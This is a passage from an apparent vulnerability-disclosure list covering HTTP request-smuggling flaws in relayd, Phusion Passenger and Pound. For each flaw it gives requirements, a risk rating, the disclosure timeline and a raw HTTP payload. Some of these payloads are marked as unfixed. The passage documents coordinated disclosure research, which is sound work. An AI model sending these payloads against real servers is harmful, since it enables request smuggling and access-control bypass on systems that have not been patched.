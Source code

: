   - Risk: High. See H2O bug 4.
  - Payload: `POST / HTTP/1.1\r\nHost: a\r\nContent-Length: 0\r\nContent-Length: 31\r\n\r\nGET /evil HTTP/1.1\r\nHost: a\r\n\r\n`
  - Timeline:
    - November 30, 2023: Reported via email.
    - January 31, 2024: Remains unfixed.
8. relayd forwards requests containing both `Content-Length` and `Transfer-Encoding` headers.
  - Use case: Request smuggling
  - Requirements: A server that prioritizes `Content-Length` over `Transfer-Encoding`, or does not support `Transfer-Encoding: chunked`.
  - Risk: High. This is the classic request smuggling vector.
  - Payload: `POST / HTTP/1.1\r\nHost: a\r\nContent-Length: 5\r\nTransfer-Encoding: chunked\r\n\r\n0\r\n\r\n`
  - Timeline:
    - November 30, 2023: Reported via email.
    - January 31, 2024: Remains unfixed.
9. relayd forwards requests containing whitespace-prefixed chunk-sizes.
  - Use case: ???
  - Requirements: N/A
  - Risk: None
  - Payload: `POST / HTTP/1.1\r\nHost: a\r\nTransfer-Encoding: chunked\r\n\r\n           0\r\n\r\n`
  - Timeline:
    - November 30, 2023: Reported via email.
    - January 31, 2024: Remains unfixed.

### Phusion Passenger
1. Passenger treats `,chunked` as not equal to `chunked`.
  - Use case: request smuggling.
  - Requirements: A transducer that forwards either multiple `Transfer-Encoding` headers, or forwards `Transfer-Encoding: ,chunked` as-is, and treats it as equivalent to `Transfer-Encoding: chunked`.
  - Risk: High. See Azure CDN bug 1 and Pound bug 1.
  - Payload: `GET / HTTP/1.1\r\nHost: whatever\r\nTransfer-Encoding: ,chunked\r\nContent-Length: 5\r\n\r\n0\r\n\r\n`
  - Timeline:
    - November 6, 2023: Reported via email.
    - January 31, 2024: Remains unfixed.
2. Passenger allows header names to be continued across lines.
  - Use case: request smuggling.
  - Requirements: A transducer that forwards header lines that don't contain a `:`.
  - Risk: Medium. See OpenLiteSpeed bug 12.
  - Payload: `POST / HTTP/1.1\r\nHost: whatever\r\nTransfer-\r\nEncoding: chunked\r\nContent-Length: 5\r\n\r\n0\r\n\r\n`
  - Timeline:
    - November 6, 2023: Reported via email.
    - January 31, 2024: Remains unfixed.

### Pound
1. Pound forwards requests containing multiple `Transfer-Encoding: chunked` headers.
  - Use case: Request smuggling
  - Requirements: A server that treats multiple `Transfer-Encoding: chunked` headers as not equivalent to no `Transfer-Encoding: chunked`, or joins multiple `Transfer-Encoding` headers, and treats `chunked,chunked` as distinct from `chunked`.
  - Risk: Medium. See Phusion Passenger bug 1 and REDACTED.
  - Payload: `POST / HTTP/1.1\r\nHost: whatever\r\nTransfer-Encoding: chunked\r\nTransfer-Encoding: chunked\r\n\r\n0\r\n\r\n`
  - Timeline:
    - October 7, 2023: Reported via [GH issue](https://github.com/graygnuorg/pound/issues/18).
    - October 12, 2023: Fixed in [commit](https://github.com/graygnuorg/pound/commit/8d86d52d0bc65534c33018b0a01996081d23b89e).
2. Pound forwards requests constaining `0x`-prefixed chunk-sizes.
  - Use case: Request smuggling
  - Requirements: A server that interprets chunk sizes as their longest valid prefix.
  - Risk: High. See WEBrick bug 2, Apache Traffic Server bug 5, H2O bug 3.